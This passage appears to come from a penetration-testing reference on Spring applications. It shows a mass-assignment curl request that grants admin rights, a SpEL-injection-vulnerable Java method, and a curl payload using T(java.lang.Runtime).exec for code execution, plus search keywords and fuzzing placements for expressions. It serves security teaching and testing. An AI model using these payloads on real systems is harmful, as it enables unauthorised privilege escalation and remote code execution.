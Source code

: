 Using the mass assignment vulnerability, we can set the value of the attribute isAdmin of the instance of the class User:

```bash
curl -X POST -d 'userid=attacker&password=s3cret_pass&email=attacker@attacker-website.com&isAdmin=True' http://<TARGET>/addUser
```
{% endtab %}
{% endtabs %}

#### SpEL Injection

The [Spring Expression Language](https://docs.spring.io/spring-framework/docs/3.2.x/spring-framework-reference/html/expressions.html) (SpEL for short) is a powerful expression language that supports querying and manipulating an object graph at runtime. SpEL injection occurs when user controlled data is passed directly to the SpEL expression parser.

{% tabs %}
{% tab title="Exploit" %}
&#x20;For instance, the following method uses the standard context to evaluate SpEL expression:

```java
private static final SpelExpressionParser PARSER = new SpelExpressionParser();
private static final StandardEvaluationContext CONTEXT = new StandardEvaluationContext();

@PostMapping(path = "/")
public void method(@RequestBody String path, @RequestBody String value) {
    Expression expression = PARSER.parseExpression(path);
    expression.setValue(CONTEXT, value);
    // ...
}
```

As a result, you can gain code execution by sending the following `POST` request:

```bash
curl -X POST -H 'Content-Type: application/json' -d "{\"path\":\"T(java.lang.Runtime).getRuntime().exec('touch executed').x\", \"value\":\"executed\"}"
```

If you have access to a source code, try to search for vulnerable code using the following keywords:

* `SpelExpressionParser`, `EvaluationContext`, `parseExpression`, `@Value("#{ <expression string> }")`
* `#{ <expression string> }`, `${<property>}`, `T(<javaclass>)`

If a source code is not available, it is worth checking the `metrics` and `beans` endpoints provided by the [Spring Boot actuators](spring-boot-actuators.md). These endpoints can expand the list of available beans and the parameters they accept.
{% endtab %}

{% tab title="Fuzzing" %}
&#x20;Yoy may try to use expressions in different elements of the service:

Parameter names and values:

* `variable[<expression string>]=123`
* `variable=123&<expression string>=123`
* `{"<expression string>":"123"}`
* `{"variable":"<expression string>"}`
